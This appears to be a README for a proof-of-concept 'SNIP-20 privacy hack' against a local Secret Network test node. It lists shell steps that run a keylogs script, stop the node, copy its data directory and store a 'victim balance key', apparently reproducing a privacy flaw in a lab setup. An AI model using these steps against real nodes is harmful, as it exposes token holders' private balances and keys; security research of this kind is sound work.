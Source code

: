 ## SNIP-20 privacy hack
```
docker-compose down
docker system prune

sudo service docker restart

./build_image.sh

sudo ./start_node.sh

./node_modules/.bin/jest -t Setup
./keylogs.sh
```
Get the victim balance key.

```
docker exec -it hacking-localsecret-2-1 bash
ps -ax
pkill -f secretd
ps -ax //make sure node has stopped!!!

rm -rf backup
mkdir backup
cp -rf /root/.secretd/* backup/
vim backup/victim_key
```
Store the victim balance key.

```
./scripts/test_snip20.sh
```

